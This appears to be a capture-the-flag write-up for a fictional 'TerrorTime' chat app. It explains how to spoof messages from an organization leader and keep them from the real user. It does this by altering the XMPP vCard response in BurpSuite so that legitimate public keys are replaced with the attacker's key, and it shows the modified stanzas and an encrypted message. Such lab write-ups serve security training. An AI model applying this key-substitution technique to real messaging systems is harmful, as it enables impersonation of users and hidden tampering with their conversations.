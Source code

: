# Task 6a - Message Spoofing

## Prompt

The ability to masquerade as a TerrorTime user is helpful, even when we are not able to access the plaintext version of their messages. We want to be able to send "spoofed" messages (i.e., messages appearing to be from the user we are masquerading as) to other TerrorTime users as a way of disrupting their attack plans. Critically, any conversation we have as the masqueraded user should never be visible to that user the next time they access their account. But complicating matters is the fact that all messages sent and received through TerrorTime are archived on the chat server and downloaded each time a user logs in to their account. For this task, identify a vulnerabilty that will allow you to send/receive messages as a TerrorTime user without that user ever seeing those messages the next time they access their account. To prove your solution, submit the encrypted message body of a spoofed message that was sent from the organization leader to a cell leader. Submit the full client id of the cell leader you chose. Put the organization leader's account in a state such that replies to your spoofed message will never be seen by them, but still readable by you.

## Solution

### Protocol Analysis

In task 5 we learned how to spoof the login of another user to be able to send messages as them. Now we have to figure out how to cover our tracks to make sure the real user won't see our messages or get replies from the user we're messaging. It really helps to have an idea of how the public key infrastructure is set up for the TerrorTime application to figure out an exploit.

Every user should have a public and private key that they use to receive and decrypt messages with respectively. If the server archives all of these messages, it will only be able to have an encrypted copy. And if we have our own public/private key then the real user shouldn't be able to see our spoofed message anyway, right?! Something else must be going on for a user with a different private key to be able to decrypt a message we send. Let's take a look at what a message looks like to figure out what might be going on.

![Message](images/msg.png)

Interesting, the only thing that seems out of place is the message key. If a single symmetric key for the message is encrypted using each public key for every user that would explain why so many people can see the message! Let's look in the decompiled code to confirm this.

`crypto/Messaging.java` makes it clear that this is the case. The `messageKey` has multiple public key fingerprints that each have the symmetric key encrypted with the public key from the fingerpint. So, if we wanted to prevent the real organization leader from being able to see the message, my first thought would be to remove their `messageKey` section from the spoofed message we send out. Unfortunately, this chunk of code makes sure that all messages have all public key fingerprints for both sender and recipient:

```
final JSONObject jsonObject4 = new JSONObject(new String(CryptHelper.aesDecrypt(unwrapKey, dec
if (jsonObject4.has(((Message)ex).getClientId()) && jsonObject4.has(((Message)ex).getContactId
final JSONArray jsonArray = jsonObject4.getJSONArray(((Message)ex).getClientId());
final JSONArray jsonArray2 = jsonObject4.getJSONArray(((Message)ex).getContactId());
for (int i = 0; i < jsonArray.length(); ++i) {
    if (!jsonObject2.has(jsonArray.getString(i))) {
        Log.v("decryptMessage", "Mismatched recipients");
        return Optional.empty();
    }
}
for (int j = 0; j < jsonArray2.length(); ++j) {
    if (!jsonObject2.has(jsonArray2.getString(j))) {
        Log.v("decryptMessage", "Mismatched recipients");
        return Optional.empty();
    }
}
```

If we can't remove or modify the fingerprint, maybe we could modify the key? The sender's key isn't verified by the recipient and it would prevent the real user from decrypting the message upon login. However, that would only prevent them from getting the messages we spoof, not the replies because a sender has their own copy of the public keys for their recipient. 

Perhaps we can go to the source? The list of public keys has to come from somewhere and we definitely have the ability to update it because everytime we generate a new public key pair by registering a masqueraded user it gets added to the list. Otherwise we wouldn't be able to spoof messages. If we can add, we might also be able to delete.

Doing a quick search for anything mentioning public keys, `grep -ir "publickey" ./` gives us a bunch of results, but towards the bottom there are a few references to something called `savePublicKey` and `savePublicKeyToVCard` in `LoginActivity.java`. A vCard is a Virtual Contact Card, just something that each client has with some information. If this app is using the vCard to exchange Public Keys, we can probably manipulate the key update on login. The VCardHelper.java file contains the `savePublicKey` method:

```
public static boolean savePublicKey(final String s) {
        final TerrorTimeApplication instance = TerrorTimeApplication.getInstance();
        try {
            final VCardManager vCardManager = instance.getVCardManager().orElseThrow((Supplier<? extends Throwable>)_$
            VCard loadVCard;
            if ((loadVCard = vCardManager.loadVCard(instance.getXMPPTCPConnection().orElseThrow((Supplier<? extends Th
                loadVCard = new VCard();
            }
            final String field = loadVCard.getField("DESC");
            if (field != null) {
                final String[] split = field.split(":");
                for (int length = split.length, i = 0; i < length; ++i) {
                    if (Arrays.equals(split[i].getBytes(), s.getBytes())) {
                        return true;
                    }
                }
                final StringBuilder sb = new StringBuilder(s);
                sb.append(":");
                sb.append(field);
                loadVCard.setField("DESC", sb.toString());
            }
            else {
                loadVCard.setField("DESC", s);
            }
            vCardManager.saveVCard(loadVCard);
            return true;
        }
        finally {
            final Throwable t;
            Log.e("EXCEPTION", "Error saving public key", t);
            return false;
        }
    }
```

This method fetches the vCard on login and checks to see if our key is in that card, if it is not, it updates the card with our information. Let's see if we can locate this traffic in BurpSuite when logging into an account.

![VCard](images/vcard.png)

### vCard Exploitation

#### NOTE: Overwriting vCards will permanently remove the legitimate Public Key from the service unless you save it. You need the Public Key to be correct in Task 6b and Task 7 so make sure to save all Public Keys you overwrite.

Confirmed! The vCard is being retrieved and updated at login. So, if we want to prevent the archived messages from being seen by the legitimate user, we can remove all of the public keys from the vCard response, then our key will be added and we will be the only ones able to read that message!

Here's the modified response to our vCard request:

```
<iq xml:lang='en' to='malia--vhost-10@terrortime.app/chat' from='malia--vhost-10@terrortime.app' type='result' id='fsa1a-2893'><vCard xmlns='vcard-temp'><DESC>
</DESC></vCard></iq>
```

Here's the vCard update request from our app:

```
<iq id='fsa1a-2895' type='set'><vCard xmlns='vcard-temp'><DESC>-----BEGIN PUBLIC KEY-----
MIIBITANBgkqhkiG9w0BAQEFAAOCAQ4AMIIBCQKCAQA0EAaw73OKk2j6H5xmFvV/
4bW26pd7sd/sFnjngyU/0+AjZPMUjd7VN0akxsnBA33t0XAOAJmyUvMbIxHR/sTf
F5wk76SaJmwBaZQjlW/SQIIGHKskTuPxPFbP+3uJVhtHdUa7dxQcztWxdq2zK1XH
4lycqeorL0keJ0AhnfAz64cnuG+dSCG3d5aumqsHspDUPA1AAEHA9cJE0hqajsV3
T/LxBVrn2ha9VzHgHBDUPzGuPuTE2p8W5xmKMUS68uF9QTAM463wnzznTJkuCHbZ
4r7q50yaA87xYkdSFqE/+moX4ZuIqoW0TA9PYHzGyeerm2d+qfx7EYw8XHbMdF7H
AgMBAAE=
-----END PUBLIC KEY-----
:
</DESC></vCard></iq>
```

Now any messages we send will fulfill the challenge requirements as long as the recipient is a Cell Leader.

```
{
  "messageKey": {
    "gO8Zs/2vO0rtrJwY6WULjiBWRDscPiRuU+Tsh2kpH9s=": "Hgx+ms3/fSSYVdwyDItN9gQT5eTHcvse846dM5PurQIP5qrkPW5pJaiwQyPJWRWGORoQegi5+S2K28XzVlR0qn4nVg5uaWMXR5DwrJpj2H9UkrgtUTLcr2CaRmsKltaXgwx29iHqjou2bwcnOIjQv1Iq+MYGtZE8CXwaNJZqFwme5CDjTFGQ6hvTf+vWaHL9sDB1HSLZC2OrFb7Hh9pt677B+9E/MIdZiQ/MEHndK030B0Z0jR3ww/9smSsBembaZjuVIpURoN9OhURdN9AeNr5Lv3XPJYIRsb3Gi1axWmbf/MVaRg7hKqQdtiCu8ICJ8NyPLeyAKfvCLJCm+p+53g==",
    "TctZgSAE7tgW8R3z2xa9VJX3wPDBYfaYr5/Y+5jUWjs=": "AVs2ppLVbb12VZ1tzPo7pfHtofuOWPHp4gr2HiASAHztwS+LZqYY4qK1Rx/mKAf7tH5Zv3dA2DAWyz9eyuc9CQzuM9x6Bx0sY91F27mURJIpvfbQPlwO/5Hlvprc0Zt7zgpSBeHJD5MqhFcNXt0+lzPTRZGL8GnUNY1ZzkfGOPqWEtYDj2c3Td+Cs3UIlNJAeU9pgj12w0+nx0+ztG8yKhxBT8xMoI59Gd7qJQch9ArnkUVq/iVwY0oeiw6qNzwnv7yUCGTATW4Gey9vQwO5c1cw9yZDyKJujzoFVXEorCoaWpve0sAIofstP5jpjx5bqxYAB9gxs0jHxvFoeQTh3A==",
    "HDS+POWZ3VbPZnNZ8D7t/1S1kxUpBRoDTQs9OP1uQCI=": "F1xk8nmBRQST37m9j96hmG4J2hFU8ofiqP8Xb9rCfzU+OTda4BHg1a8kKnw9T706DeUAgdPZxwTBCIWrb1Th/mpK/VtIHQBOl1XuomTtFH8TjePoWxQptR7OE2e13PctcDvzouRBsrqyPJL5XoVlQ5hEUy6fGQV1WPEveYRoKjjy+A6s07eMAqPkAdN9yB+hvTkanlIi+F9j53Zr4z5wmldNeEjmL9G9pBtugRdZ/+X3joru1xG72TywqT3+WNICo9RE7J7be7VKNhxrFUvFgrK6OmWJNYkEn3Ia5KvNNYw8sk9M+9yQobNMXd1VOEJ56VP8RqqYLMNE6MPzfe9NhQ==",
    "T7+CH1iMcPuo93vpMvGfQpyBdsUwu5ur4CXnonP9bDo=": "Jmz7HFKToIPiCwJ1H6QEMCz9CzvzoyW8QvywkFFRt0cGYIuKATGVQ67Dz3Y3ehf2l4yUQsts2qZ8lbWmFdHAI+WZHhRn0dstYMxe5ifbDdr8Cxj6YU0fjuRSdixvyp0KctRYF5JBy1AJX9CiY+/3UBz3fwMtMVk9it1ukXTyDcsUQw61zn2U102rUspNJ12Z/ITCqTXWOfYVTITXrEQAorBkVFKaTZxdMtZgX76LevaHftEWBgrNRbLE8uISwAD76q5sT8CZl/oofU2Yf0Ot13BBhiA2/USGwNmo8zt/GO2QboAdX0eRQQSOh1Yp+G/O6/2/ce7JXBpLjPjli0PpUQ==",
    "7uz4b7go+xNdYzlBsBfWmxBSseGOhfk5REuruRVyv4Y=": "ASGu0oifxKVn0jaXl+5AqJSBh91dw0y/QIojYMZLhjhuLp9In9rFHkSi5EtCFOLTAYGyZWvRc6tKn94fvup7uJUKgZTM8/tmvdkfT2pLR2gK1yB+9YJ7JUEehjAjyh4Cqik3L7KM7ac/tUH2zaVLYWR4qP4ozvQ468uvt10lqZ3bD6ZiPIizpCaIdyxunv+1Kx8uK/4/D/bLlMNiTSpUGcokXSVG0YHuF5kvRVNEZaW7Ne0nNvq/35UvHP6TmgstSmwyYPnCZj3xRorQkMgsUjgKn9pEUz0NM6NOz4hO92GSrcaVlvTLcokrd5LEtLGvCk9nrefwjXzqHMQVs2XpUQ=="
  },
  "message": {
    "iv": "AZo8mjwObz5edVoybfTQ6Q==",
    "msg": "XP2/dxW2ng4KwCEHdfJsM0A7Eii5d/eFTXCGWgnDQCqWs7ksk8UrGrG838zd5RPoMV1sZBB4C/yNXnH1Eb+sf+COTNmleGeJzue9W3JO7RyuvmgbvF4qIZ76hEwn5lxRaOSmYtGWWZrAxeKMiU7y2UAnxf/5Rb90oHzp3kLKN0ZA+/5tDH1u41zyMYbloHIEaIrCoHnLLOuroYDzEPcJV5J8X5zqsOc98qKNq3BY42W81Nq6KIuBZxT9x8K/qnXfmE1eZRyOvbeR+ZqDqL59n3SyO8VIGvpbeJ5YaoayisVoJZssiDpHV6i4buzh94iA4DtCiZgokN7hNO/NPql9QQi25PAu1Tige3jEO377lbiGYd2I5m+ZRDmLgQbwXL2Ysy0mMmNZtSAEmyReDsZM/G0xeUXP78C/6AY1wmYgtqJ6FHJFdPLy4uEMkA/1jqOR"
  },
  "messageSig": "xVAhG9isdjCNDDXtbg8/rdfG0m0jXJgO2RDl4HabvXo="
}
```

Our spoofed user accounts for one of the `messageKey` fields here and our Cell Leader accounts for the other four. No one besides us and the Cell Leader have access to these messages, archived or not. 
